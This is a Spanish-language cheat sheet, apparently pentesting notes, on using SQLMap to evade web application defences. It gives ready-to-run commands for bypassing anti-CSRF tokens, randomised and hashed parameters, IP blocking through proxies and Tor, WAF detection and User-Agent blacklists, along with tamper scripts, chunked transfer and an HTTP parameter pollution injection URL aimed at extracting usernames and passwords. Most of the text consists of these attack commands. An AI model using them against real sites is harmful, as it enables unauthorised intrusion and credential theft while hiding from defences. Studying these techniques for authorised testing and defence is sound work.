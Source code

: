 # **Bypassing Protecciones en Aplicaciones Web con SQLMap**

## **1. Evadiendo Protección Anti-CSRF**

Las aplicaciones web usan tokens **anti-CSRF** para evitar el uso de herramientas automatizadas en formularios web. SQLMap permite superar esta protección con la opción:

```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

- **`--csrf-token="csrf-token"`**: SQLMap detectará y actualizará automáticamente el token en cada petición.

## **2. Evadiendo Parámetros con Valores Únicos**

Algunas aplicaciones requieren valores únicos en ciertos parámetros para prevenir automatización (similar a los tokens CSRF). Para ello, se usa:

```bash
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp
```

- **`--randomize=rp`**: Genera un valor aleatorio en cada petición para el parámetro `rp`.

## **3. Evadiendo Parámetros Calculados**

Algunas aplicaciones requieren valores generados dinámicamente, como un **hash MD5**. SQLMap permite calcular estos valores antes de enviarlos con `--eval`:

```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" \
  --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```

- **`--eval`**: Permite ejecutar código Python para calcular valores antes de enviarlos.

## **4. Ocultando la Dirección IP**

Si una aplicación bloquea el IP del atacante, se puede usar un **proxy** o **Tor**:

- **Usar un proxy SOCKS4:**
    
    ```bash
    sqlmap -u "http://www.example.com/" --proxy="socks4://177.39.187.70:33283"
    ```
    
- **Usar Tor automáticamente:**
    
    ```bash
    sqlmap -u "http://www.example.com/" --tor
    ```
    
    - Para verificar que Tor está en uso:
        
        ```bash
        sqlmap --check-tor
        ```
        
- **Usar una lista de proxies:**
    
    ```bash
    sqlmap -u "http://www.example.com/" --proxy-file=proxies.txt
    ```
    

## **5. Evadiendo WAF (Web Application Firewall)**

SQLMap detecta automáticamente WAFs enviando cargas de prueba. Para **saltar la detección**:

```bash
sqlmap -u "http://www.example.com/" --skip-waf
```

## **6. Evadiendo Blacklisting de User-Agent**

Si un sitio bloquea el **User-Agent** por defecto de SQLMap, se puede usar:

```bash
sqlmap -u "http://www.example.com/" --random-agent
```

Esto cambia el User-Agent por uno aleatorio de un navegador legítimo.

## **7. Uso de Tamper Scripts para Bypassing**

Los **tamper scripts** modifican las consultas SQL para evadir detección. Se pueden usar varios en cadena con `--tamper`:

```bash
sqlmap -u "http://www.example.com/" --tamper=between,randomcase
```

### **Tamper Scripts más utilizados:**

|Tamper Script|Descripción|
|---|---|
|`between`|Reemplaza `>` con `NOT BETWEEN 0 AND #` y `=` con `BETWEEN # AND #`.|
|`randomcase`|Aleatoriza las mayúsculas/minúsculas en palabras clave SQL.|
|`space2comment`|Reemplaza espacios con comentarios (`/**/`).|
|`equaltolike`|Reemplaza `=` por `LIKE`.|
|`base64encode`|Codifica la carga útil en Base64.|

Para listar todos los **tamper scripts** disponibles:

```bash
sqlmap --list-tampers
```

## **8. Otras Técnicas de Bypass**

### **Transferencia Chunked**

Divide el cuerpo de la solicitud en fragmentos para evitar la detección de palabras clave SQL:

```bash
sqlmap -u "http://www.example.com/" --chunked
```

### **HTTP Parameter Pollution (HPP)**

Concatena múltiples valores para el mismo parámetro para evadir filtrado:

```bash
sqlmap -u "http://www.example.com/?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users..."
```

---

Este resumen cubre las principales técnicas para **bypassear protecciones web con SQLMap** y facilitar su uso en **pentesting de aplicaciones web**.